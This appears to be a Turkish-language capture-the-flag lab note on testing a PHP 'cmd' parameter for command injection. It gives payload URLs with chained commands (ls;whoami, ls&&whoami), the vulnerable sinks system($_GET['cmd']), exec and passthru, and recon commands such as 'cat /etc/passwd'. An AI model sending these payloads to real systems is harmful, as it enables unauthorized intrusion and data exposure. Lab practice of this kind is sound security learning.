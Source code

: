 # index.php içini okumamız mümkünse okuyalım
1. Parametre Manipülasyonu (Injection Testi)
Eğer bir cmd parametresi varsa ve bu parametre bir komut çalıştırmak için kullanılıyorsa, bu bir komut enjeksiyonu (Command Injection) olasılığını gösterir.
Örnek test:
http://abc.thm/assets/index.php?cmd=whoami
http://abc.thm/assets/index.php?cmd=ls
Eğer bir sonuç dönerse (örneğin, dosyalar listeleniyorsa), komut çalıştırabildiğiniz anlaşılır.
2. Kendi Komutlarınızı Ekleyerek Test Etme
PHP'de genelde komutları zincirlemek için &&, |, ; veya $(komut) gibi operatörler kullanılır. Bununla test edebilirsiniz:

http://abc.thm/assets/index.php?cmd=ls;whoami
http://abc.thm/assets/index.php?cmd=ls&&whoami
Eğer sonuç dönüyorsa, komut zincirlemenin mümkün olduğu anlaşılır.
3. Yanıtı Analiz Etme
Eğer cmd parametresine rastgele değerler gönderdiğinizde bir hata mesajı dönerse, PHP'nin exec(), shell_exec() veya benzeri bir fonksiyonun çalıştığını fark edebilirsiniz. Örneğin:
http://abc.thm/assets/index.php?cmd=abc123
Dönen mesajda, komut bulunamadı (command not found) gibi ifadeler varsa, bu bir göstergedir.
4. Kaynak Kod Analizi
Eğer PHP dosyasını (örneğin /assets/.php) veya dizin altında başka bir dosyayı görüntüleme şansınız varsa, içeride şu gibi kodları arayabilirsiniz:

system($_GET['cmd']);
exec($_GET['cmd']);
passthru($_GET['cmd']);
Bu fonksiyonlar, gelen kullanıcı girdilerini işletim sisteminde komut olarak çalıştırmak için kullanılır.
5. Dışarı Çıkmaya Çalışma
Eğer ls gibi komutlar dönerse, daha fazla yetki veya bilgi almak için şu komutları deneyebilirsiniz:

pwd (Mevcut dizini öğrenmek için)
cat /etc/passwd (Kullanıcı bilgilerini görüntülemek için)
uname -a (Sistem bilgilerini almak için)
